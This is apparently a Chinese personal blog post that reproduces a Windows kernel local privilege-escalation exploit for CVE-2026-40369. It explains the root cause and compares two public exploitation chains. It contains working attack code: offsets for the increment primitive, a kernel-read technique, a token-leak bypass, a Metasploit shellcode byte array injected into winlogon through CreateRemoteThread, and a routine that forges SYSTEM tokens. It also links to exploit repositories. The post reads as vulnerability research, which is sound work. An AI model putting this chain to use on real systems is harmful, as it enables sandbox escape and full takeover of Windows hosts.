


这两天想起来今年5月曝光的windows内核漏洞cve-2026-40369, 闲着没事复现一下. 这个漏洞影响还是挺大的, 因为可以在浏览器沙箱中使用

## 漏洞成因

```c
NTSTATUS NtQuerySystemInformation(
    ULONG SystemInformationClass,   // 传入 253 (SystemProcessInformationExtension)
    PVOID SystemInformation,        // 接收数据的输出缓冲区
    ULONG SystemInformationLength,  // 缓冲区大小
    PULONG ReturnLength             // 实际返回的数据长度
);
```

漏洞出现在常见的`NtQuerySystemInformation`函数, 该函数预期`PVOID SystemInformation`参数是一个用户态指针或NULL, 且`SystemInformationLength`为该缓冲区长度, 该函数会将实际需要的缓冲区长度写入`PULONG ReturnLength`指针, 让用户分配合理大小的缓冲区用来存信息, 实际用起来类似下面这样

```c
ULONG ret = 0;
char *buf = NULL;
SYSTEM_HANDLE_INFORMATION_EX *info;
while (true)
{
    // get buf length
    NtQuerySystemInformation (SystemProcessInformationExtension, buf, ret, &ret);

    // use the buf length kernel give us to alloc memory
    buf = realloc (buf, ret);
    info = (SYSTEM_HANDLE_INFORMATION_EX *)buf;

    // but the actual needed buf length might increase
    NTSTATUS status = NtQuerySystemInformation (SystemProcessInformationExtension, buf, ret, &ret);

    // if the buf length increased, do it again
    if (status == STATUS_INFO_LENGTH_MISMATCH)
        continue;
    break;
}
```

> 本人一直不擅长逆向和分析源码, 这方面的分析只能做简单参考. 想要了解完整的链子还是自己花时间去逆向, 或者读`https://pwn2nimron.com/blog`和`https://voidsec.com/cve-2026-40369-browser-sandbox-escape/`的分析

不管是`SystemProcessInformationExtension`还是其他类, 都有ProbeForWrite来检查用户传入的`PVOID SystemInformation`是否是合法地址(比如不能为内核地址), 而`ProbeForWrite`在于当传入的长度为0时, 直接返回. 这一点从`ProbeForWrite`函数的语境来看, 没有任何问题, 检查一个写操作是否合法, 但既然长度为0了, 那也没必要检查, 直接当作合法就行.
```c
void __stdcall ProbeForWrite(volatile void *Address, SIZE_T Length, ULONG Alignment)
{
  unsigned __int64 Address_1; // rdx
  volatile void *Address_2; // rdx

  if ( Length )
  {
    if ( ((Alignment - 1) & (unsigned int)Address) != 0 )
      ExRaiseDatatypeMisalignment();
    Address_1 = (unsigned __int64)Address + Length - 1;
    if ( (unsigned __int64)Address > Address_1 || Address_1 >= 0x7FFFFFFF0000LL )
      ExRaiseAccessViolation();
    Address_2 = (volatile void *)((Address_1 & 0xFFFFFFFFFFFFF000uLL) + 4096);
    do
    {
      *(_BYTE *)Address = *(_BYTE *)Address;
      Address = (volatile void *)(((unsigned __int64)Address & 0xFFFFFFFFFFFFF000uLL) + 4096);
    }
    while ( Address != Address_2 );
  }
}
```

出问题的地方在于`SystemProcessInformationExtension`类没有处理好长度为0的情况. `ExpGetProcessInformation`函数中检查了用户提供的缓冲区长度(此时为0)是否小于内核需要写入的长度(对于该类是12), 并将status设置为`STATUS_INFO_LENGTH_MISMATCH`. 但在这之后, 函数继续对用户提供的地址递增的操作而不是立刻返回失败结果.
```c
v8 = n48 < n48_1;
if ( n48 < n48_1 )
{
    if ( !p_Size )
        return 0xC0000004;
    v8 = n48 < n48_1;
}
v10 = v8 ? 0xC0000004 : 0;
// and continues!
```

```c
if ( n253 == 253 )
{
    Address_7 = Address_4;
    ++*Address_4;
    Address_7[1] += PsGetProcessActiveThreadCount((__int64)NextProcess);
    Address_7[2] += ObGetProcessHandleCount((struct _EX_RUNDOWN_REF *)NextProcess, 0LL);
}
```

## 漏洞原语

上面看到的操作会对系统的每个进程全部运行一遍, 所以原语就是指定任意地址, 会发生下面的递增
```c
DWORD target[3];
target[0] += system_process_counts;
target[1] += system_thread_counts;
target[2] += system_handle_counts;
```
公开的poc在https://github.com/orinimron123/CVE-2026-40369-EXPLOIT/blob/main/basic_poc/basic_poc.cpp

## 漏洞利用

利用这块看到orinimron123和voidsec都有一篇利用思路不同的文章, 对比了下两者思路. 其中有一步是两者的交集: 修改自己进程token的privilege. 不过修改的方式以及修改后的目的不同. 并且两者需要`ntoskrnl.exe`的基地址

| author | ori | voidsec |
| --- | --- | --- |
| 如何获取token地址 | 构造内核任意地址读后遍历EPROCESS link list | 设置Feature_RestrictKernelAddressLeak位以从SystemExtendedHandleInformation 获取token地址 |
| 提升token的哪些权限用于做什么 | SeDebugPrivlege 用于线程注入 | SeCreateTokenPrivilege SeTcbPrivilege SeImpersonatePrivilege 用于手动伪造高权限token |

这次的利用上voidsec文章给出的思路更简洁, 不需要构造复杂的内核任意读, 而且通过SeDebugPrivilege打线程注入很容易被edr检测到. 这种提权方式太过常见了, 只适合作为poc演示, 实际场景肯定是伪造token会更加隐蔽一些. 但ori构造的内核任意读本身还是很值得学习的, 所以两者的exp我都跟着复现了一下.

### ori-内核任意地址读

#### 构造内核错误越界访问用户地址

`ntoskrnl.exe`中有一个`CmpLayerVersion`指针数组, cap为0x10, 但长度始终为4. 下面是ori给出的`FAKE_VERSION_STRUCT`结构体. `CmpLayerVersion`中有四个指向该结构体的指针, 并且预留了12个空槽位全部置为NULL.
```c
typedef struct
{
  BYTE header[0x10];    // +0x00: DWORD region
  UNICODE_STRING64 us1; // +0x10: String1 channel (128 bytes output)
  UNICODE_STRING64 us5; // +0x20: zeroed (unused)
  UNICODE_STRING64 us6; // +0x30: zeroed (unused)
  UNICODE_STRING64 us2; // +0x40: zeroed (unused)
  UNICODE_STRING64 us3; // +0x50: zeroed (unused)
  UNICODE_STRING64 us4; // +0x60: zeroed (unused)
  BYTE pad[0x320 - 0x70];
  ULONG field_320; // +0x320
} FAKE_VERSION_STRUCT;
```
在`ntoskrnl.exe`另一个偏移处有一个`CmpLayerVersionCounts`, 标记着长度为4. 我们在调用`NtQuerySystemInformationEx (SystemBuildVersionInformation, &idx, sizeof (idx), info, sizeof (*info), &return_len);`时访问`CmpLayerVersion`数组时会收到`CmpLayerVersionCounts`的限制

从`SystemBuildVersionInformation`会返回这样的信息, 其中不少信息可以和内核上的`FAKE_VERSION_STRUCT`对应上
```c
typedef struct
{
  USHORT LayerIndex;        // +0x00
  USHORT LayerVersionCount; // +0x02
  ULONG Field_04;           // +0x04 Field这16个字节直接来自于FAKE_VERSION_STRUCT的header[0x10]
  ULONG Field_08;           // +0x08
  ULONG Field_0C;           // +0x0C
  ULONG Field_10;           // +0x10
  CHAR String1[128];        // +0x14 us1 的转码结果
  CHAR String2[128];        // +0x94
  CHAR String3[128];        // +0x114
  CHAR String4[128];        // +0x194
  CHAR String5[26];         // +0x214
  CHAR String6[16];         // +0x22E
  BYTE Padding[2];          // +0x23E
  ULONG Field_240;          // +0x240
} SYSTEM_BUILD_VERSION_INFORMATION, QUERY_OUTPUT;
```

由于我们有一个递增的原语, 很容易想到用来给`CmpLayerVersionCounts`用, 这样可以轻松构造一个`SystemBuildVersionInformation`的越界读, 访问到0x4-0x10这几个指针. 但他们被默认设置为NULL

接下来介绍SMAP. 这个硬件特性可以防止系统在内核态时访问用户态内存. 嗯, 简单来说, windows几乎不使用该特性. windows内核在执行我们的程序时, 可能会无意识的将一个用户态指针当作内核态指针来用, 从而访问到当前进程的用户态内存, 并且内核本身可能没有意识到该问题

嗯, `CmpLayerVersion`是指针数组对吧, 那我们能不能通过递增的原语在其上构造一个用户态指针? ori的思路是在用户态的0x10000处申请0x10000大小的内存, 并且通过递增原语在`CmpLayerVersion`原本为NULL的地址上递增到0x10000-0x20000的区间. 然后通过`SystemBuildVersionInformation`的越界读判断是否成功访问到我们自己的用户态内存.

其中有几个点值得注意
- 既然原始的值是NULL, 那为什么不直接申请0x0开始的内存(反应过来后发现这个问题真的很蠢但确实出现在我的大脑里了). 答: 为了让NULL始终能被当作空指针用, 0x0-0x10000的地址空间被禁止申请
- 申请的0x10000-0x20000的内存要初始化, mem[i] = i, 等会可以用来检测内核指针落点
- 如果指针没有落到我们的0x10000-0x20000的区间, 这时候使用`SystemBuildVersionInformation`会不会出现地址访问异常? 答: 如果是小于0x10000, 地址访问异常会被windows的异常错误处理机制SEH所捕获. 下面引用ori的文章原文. 如果大于0x20000, 继续循环下去可能会把地址加到内核范围从而触发蓝屏, 多申请点用户态内存就行. 我直接申请了0x10000-0x90000, 这样指针就很难一步跨过该区间了

> When the kernel faults on a usermode address, SEH can catch it — this is by design, since user buffers can be unmapped at any time (paging, race conditions). The kernel has no way to know if the dereference "should have worked" or not. It just sees a usermode pointer that faulted, catches the exception, and returns an error status.

> Contrast this with the class 253 write primitive: if you pass an invalid kernel address, the fault occurs at a kernel address which triggers a bugcheck (BSOD) because kernel pages should never fault unexpectedly. That's why the write primitive requires a valid, mapped kernel target.

总结一下. 到目前为止, 我们先用递增原语扩大了`CmpLayerVersionCounts`, 在用户态申请了`0x10000-0x20000`的内存, 在`CmpLayerVersion`4-0x10上你看顺眼的一个槽位进行递增原语, 期待该指针落到我们的用户态, 并且使用`SystemBuildVersionInformation`来越界读`CmpLayerVersion`数组上我们递增的槽位, 如果读取成功, 就说明其落到了我们的用户态内存上.

接下来通过`SystemBuildVersionInformation`返回的`SYSTEM_BUILD_VERSION_INFORMATION`结构体中的几个`Field`的值与我们先前设置的`mem[i] = i`的值进行比对, 判断出内核指针究竟落在`0x10000-0x20000`的内存中的哪个位置.

#### UTF16->raw bytes->ANSI/UTF8->original bytes

`FAKE_VERSION_STRUCT`这个结构体中有`UNICODE_STRING64`, 我们已经成功欺骗内核认为一个`FAKE_VERSION_STRUCT`处在我们可以控制的用户态内存, 并且我们还可以用`SystemBuildVersionInformation`来读取该`FAKE_VERSION_STRUCT`的`UNICODE_STRING64`.
```c
struct _UNICODE_STRING
{
    USHORT Length;                                                          //0x0
    USHORT MaximumLength;                                                   //0x2
    WCHAR* Buffer;                                                          //0x8
}; 
```
我们只需要在用户态内存上篡改`UNICODE_STRING64`指向的地址, 再通过`SystemBuildVersionInformation`让内核将其内容复制给我们就行. ori选择将length设置为2, 一次刚好读取一个wchar. 这样就构造了一个内核任意读原语了(吗?)

> ANSI是windows用来代表国际字符的代码页, 例如在中文系统上为GBK, 西欧美国为Windows-1252.
> 由于ori的exp将length设置为2, 一次只读取一个wchar, 也就是两个原始字节.

内核在复制内容的时候会将UNICODE_STRING64从UTF16解码成程序认为的原始字节, 再编码为ANSI输出到用户态. 问题在于这两步的转换都不是无损转换, 其中都有信息丢失. 我们先来讨论UTF16解码的这一步

可以看到在D800-D8FF这个代理区会出现损失. 因为ori只读取了两个字节, 当这两个字节刚好处在D800-D8FF时, 没有后续的配对字节, 所以必然被解释为非法, 出现信息. 但除此之外的范围都不需要转换
| 码元值(UTF16编码值) | 解码结果 | 解释 |
| --- | --- | --- |
| 0000-D7FF | U+0000-U+D7FF | 这一步属于双射, 除了可能的端序之外不需要转换 |
| D800-D8FF紧跟着DC00-DFFF | U+10000-U+10FFFF | 连续两个wchar, 范围分别属于D800-D8FF, DC00-DFFF, 表示大于FFFF的原始字节 |
| E000-FFFF | U+E000-U+FFFF | 同0000-D7FF |
| D800-DFFF不配对出现 | 非法 | 这个范围只被当作代理使用, 不能单独出现 |


`raw bytes->ANSI`函数依赖于`RtlUnicodeStringToAnsiString`. 但将raw bytes转换为ANSI的过程存在大量信息损失, 有大量字符塌陷为'?'字符, 更别提在不同语言的系统上映射方式还不同. ori的解决办法是将PEB的`ActiveCodePage`设置为UTF8的魔数0xFDE9. 指定当前进程不要用系统的ANSI, 而是转换为UTF8.

上面说到由于length仅设置为2, UTF16解码过程中会损失D800-DFFF, 也就是损失U+10000-U+10FFFFF的信息. 所以我们在解码内核给出的UTF8编码时可以不用考虑F0-F4这个范围.
| 原始字节 | UTF8编码结果 |
| U+0000-U+007F | 00-7F |
| U+0080-U+07FF | C2-DF |
| U+0800-U+FFFF | E0-EF |
| U+10000-U+10FFFF | F0-F4 |

小结一下, 目前我们可以通过设置PEB的`ActiveCodePage`, 结合之前提到的构造`FAKE_VERSION_STRUCT`, 在任意内核地址读两字节(但是这两字节不能为D800-DFFF), 并且将内核返回的UTF8编码给解码为原始的两字节数据. 接下来的问题是如何处理D800-DFFF. ori的解决办法是这样的, 假设s[i]-s[i + 1]为D800-DFFF的代理区, 那就尝试读取s[i - 1]-s[i]和s[i + 1]-s[i + 2], 这样可以大大减小读取失败的概率, 对exp来说足够用了.

构造任意地址读2字节后遍历EPROCESS链表, 找到自己的process token, 通过递增尝试加出SeDebugPrivilege. 整体来说这个思路非常的复杂, 但其中很多点也有学习价值.

### voidsec-设置Leak位

voidsec的文章介绍了另一种获取token地址的思路, 通过`SystemExtendedHandleInformation`. 这也是`NtQuerySystemInformation`的一个类, 在`Feature_RestrictKernelAddressLeak`关闭或拥有`SeDebugPrivlege`等情况下, 内核会返回如下的数组. 其中`PVOID Object`即为token地址, 我们可以在遍历的时候通过HandleValue和UniqueProcessId来匹配自己进程的token
```c
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX
{
  PVOID Object;                 // +0x00  token地址
  ULONG_PTR UniqueProcessId;    // +0x08
  ULONG_PTR HandleValue;        // +0x10
  ULONG GrantedAccess;          // +0x18
  USHORT CreatorBackTraceIndex; // +0x1C
  USHORT ObjectTypeIndex;       // +0x1E
  ULONG HandleAttributes;       // +0x20
  ULONG Reserved;               // +0x24
} SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX;

typedef struct _SYSTEM_HANDLE_INFORMATION_EX
{
  ULONG_PTR NumberOfHandles;                    // +0x00
  ULONG_PTR Reserved;                           // +0x08
  SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX Handles[1]; // 实际从 +0x10 开始
} SYSTEM_HANDLE_INFORMATION_EX;
```

而`Feature_RestrictKernelAddressLeak`是可以用固定偏移来直接定位的, 我们只需要在该地址不断自增, 并且检查`SystemExtendedHandleInformation`是否返回了内核地址(在受限的情况下, PVOID Object会被清零). ida伪代码可以看到, 只要让`Feature_RestrictKernelAddressLeaks__private_featureState`满足`(X & 0x10 != 0) && (X & 1 == 0)`即可让该特性被关闭, 从而获取内核地址

```c
__int64 Feature_RestrictKernelAddressLeaks__private_IsEnabledDeviceUsageNoInline()
{
  if ( (Feature_RestrictKernelAddressLeaks__private_featureState & 0x10) != 0 )
    return Feature_RestrictKernelAddressLeaks__private_featureState & 1;
  else
    return Feature_RestrictKernelAddressLeaks__private_IsEnabledFallback(
             (unsigned int)Feature_RestrictKernelAddressLeaks__private_featureState,
             3LL);
}
```

整体来说思路简单多了, 同样是一个很值得学习的链子

### SeDebugPrivilege-线程注入

虽然这个思路很容易被edr检测, 而且也有点烂大街, 但毕竟第一次遇到, 还是研究了一下. 要求就是拥有`SeDebugPrivlege`, 下面是一个简单的实现. 为了简洁去掉了错误处理. shellcode就是一个常见的metasploit payload

```c
// run cmd.exe
unsigned char shellcode[]
    = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
      "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
      "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
      "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
      "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
      "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
      "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
      "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
      "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
      "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
      "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
      "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
      "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
      "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
      "\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff"
      "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
      "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x6d\x64\x2e\x65"
      "\x78\x65\x00";

bool
InjectToWinlogon (int pid)
{
  HANDLE h = OpenProcess (PROCESS_ALL_ACCESS, FALSE, pid);

  void *buffer =
    VirtualAllocEx (h, NULL, sizeof (shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  WriteProcessMemory (h, buffer, shellcode, sizeof (shellcode), 0);

  HANDLE hthread = CreateRemoteThread (h, 0, 0, (LPTHREAD_START_ROUTINE)buffer, 0, 0, 0);
}
```
其实就是用`SeDebugPrivlege`的权限, 在目标进程申请一片内存, 写入shellcode, 再`CreateRemoteThread`用该进程的权限来执行该shellcode

### SeCreateTokenPrivilege, SeTcbPrivilege, SeImpersonatePrivilege-伪造token

通过递增原语获取这三个权限, 用`SeCreateTokenPrivilege`来`NtCreateToken`; 用`SeTcbPrivilege`来改变该token的sessionid, 否则cmd会无法出现在用户桌面上; 最后用`SeImpersonatePrivilege`或`(SeAssignPrimaryTokenPrivilege + SeIncreaseQuotaPrivilege)`来`CreateProcessWithTokenW`或`CreateProcessAsUserW`
> 由于懒得写`SeAssignPrimaryTokenPrivilege`和`SeIncreaseQuotaPrivilege`的fallback, 第三步我只考虑了`SeImpersonatePrivilege`

#### 三个权限并不需要同时获得

值得注意的是, 这三个权限并不需要同时获得, 因为执行过相关操作后, 我们就不再需要该权限了, 但三个操作必须按照顺序执行. 下面是示例代码, 用execute数组来代表三个操作是否完成, 只有当前操作未完成且当前操作之前的操作全部完成, 才会执行当前操作.
```c
  TOKEN *token = cur->Object;
  bool executed[3] = { FALSE, FALSE, FALSE };
  HANDLE forge_handle;
  while (!executed[0] || !executed[1] || !executed[2])
    {
      write_priv ();

      if (!executed[0]
          && IsPrivilegeEnabledAndPresent (h, L"SeCreateTokenPrivilege"))
        {
          forge_handle = ForgeSystemToken ();
          executed[0] = true;
        }
      if (executed[0] && !executed[1]
          && IsPrivilegeEnabledAndPresent (h, L"SeTcbPrivilege"))
        {
          DWORD cur_session = 0;
          ProcessIdToSessionId (GetCurrentProcessId (), &cur_session);
          SetTokenInformation (forge_handle, TokenSessionId, &cur_session,
                                   sizeof (cur_session));
          executed[1] = true;
        }
      if (executed[0] && executed[1] && !executed[2]
          && IsPrivilegeEnabledAndPresent (h, L"SeImpersonatePrivilege"))
        {
          SpawnShell (forge_handle);
          executed[2] = true;
        }
    }
```

#### 权限bit的细节

```c
typedef struct _SEP_TOKEN_PRIVILEGES
{
  ULONGLONG Present;          // 0x0
  ULONGLONG Enabled;          // 0x8
  ULONGLONG EnabledByDefault; // 0x10
} SEP_TOKEN_PRIVILEGES;

typedef struct _TOKEN
{
  struct _TOKEN_SOURCE TokenSource;        // 0x0
  struct _LUID TokenId;                    // 0x10
  struct _LUID AuthenticationId;           // 0x18
  struct _LUID ParentTokenId;              // 0x20
  union _LARGE_INTEGER ExpirationTime;     // 0x28
  struct _ERESOURCE *TokenLock;            // 0x30
  struct _LUID ModifiedId;                 // 0x38
  struct _SEP_TOKEN_PRIVILEGES Privileges; // 0x40
} TOKEN;
```
> Present和Enabled分别代表该权限是否存在于该token, 该权限是否在该token中被启用, 两者必须同时满足才代表该权限可使用
> Present和Enabled分别由8bytes, 也就是64bit. 每个bit都可以代表一个privilege, 但windows并没有完全使用这些bit.

`SeCreateTokenPrivilege`, `SeTcbPrivilege`, `SeImpersonatePrivilege`分别在2, 7, 29bit. 由于29bit处在第四个字节, 如果`write_at(0x40)`, 29bit只靠`system_process_counts`很难加到, 所以采用了错位, 加在0x43的位置就能更轻易的访问到29bit
```c
  if (!executed[0] || !executed[1])
    write_at ((uint64_t)token + 0x40);
  else
    write_at ((uint64_t)token + 0x43);
```

## 总之

因为ori已经公开了exp, 所以直接看他的仓库就行. `https://github.com/orinimron123/CVE-2026-40369-EXPLOIT`. 但voidsec似乎没有公开他这个思路的exp, 所以我复现了一下, 仓库在`https://github.com/dbgbgtf1/cve-2026-40369-exploit`

第一次调试windows内核, 甚至我在vmware中用windbg调试用户态程序的同时, 在vmware外用windbg调试windows的内核, 感觉还挺有趣的. 下面是ori和voidsec两种exp的效果


